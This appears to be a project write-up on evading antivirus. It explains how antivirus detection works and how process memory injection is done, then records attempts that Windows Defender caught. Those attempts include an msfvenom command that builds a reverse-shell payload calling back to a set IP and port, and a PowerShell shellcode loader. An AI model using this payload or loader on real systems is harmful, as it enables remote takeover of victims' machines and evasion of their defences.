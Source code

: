 
## Background
Antivirus (AV) is a vital application designed to proactively prevent, detect, and eradicate malicious software. Originally, its primary purpose was to combat computer viruses, but its capabilities have expanded to address a wide range of digital threats.

## Examples of Antivirus (AV) Software
1. Windows Defender (Microsoft Defender)
2. McAfee Antivirus
3. Norton Antivirus

## Detection Methods
AV software utilizes various sophisticated detection techniques to identify and neutralize threats effectively:

1. Signature-based Detection: This method involves scanning the filesystem for known malware signatures. If any malicious patterns are detected, the AV software takes appropriate actions.

2. Heuristic-based Detection: Employing advanced algorithms and rules, this approach assesses whether specific actions in a program are deemed malicious. It often entails stepping through the instruction set of a binary file, attempting to disassemble the machine code, and ultimately decompiling and analyzing the source code to gain a comprehensive understanding of the program.

3. Behavioral Detection: AV software executes the suspicious file in an emulated environment, such as a small virtual machine, and observes its behaviors or actions. Any actions considered malicious trigger a response from the AV to contain or remove the threat.

4. Machine Learning Detection: By integrating Machine Learning (ML) algorithms, AV software can detect previously unknown threats by collecting and analyzing additional metadata. This approach enhances the AV's ability to stay ahead of emerging threats.

By combining these powerful detection methods, antivirus applications are constantly updated and refined to safeguard computers and users from the ever-evolving landscape of cybersecurity threats.

## In Memory Evasion
In-Memory Injections, also known as PE Injection, is a popular technique used to bypass antivirus products on Windows machines.
## Remote Process Memory Injection
Remote Process Memory Injection,  attempts to inject the payload into another valid PE that is not malicious.
Use `OpenProcess` function to obtain a valid `HANDLE5` to a target process that we have permission to access. After obtaining the `HANDLE`, we would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx.6 Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using WriteProcessMemory.7 

# Unsuccessful
1. Powershell Invoke-Stealth. (Caught by Windows Defender) https://github.com/JoelGMSec/Invoke-Stealth
  ![](/assets/Project/Invoke.png)

  Techniques that were utilized in the script:
  Techniques:
       · Chameleon: Substitute strings and concatenate variables
       · BetterXencrypt: Compresses and encrypts with random iterations
       · PyFuscation: Obfuscate functions, variables and parameters
       · ReverseB64: Encode with base64 and reverse it to avoid detections
       · PSObfuscation: Convert content to bytes and encode with Gzip
    However, this was blocked in Windows Defender.
  ![](/assets/Project/PowershellFail.png)

2. ScareCrow (Caught by Window Defender) https://github.com/optiv/ScareCrow 
  ![](/assets/Project/scare.png)
  ![](/assets/Project/One.png)
3. Powershell Remote Process memory Injection (Caught by Windows Defender)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```


This was also blocked by Windows Defender.
## Weaponization

## Reference
- Read team playbook, Offensive Security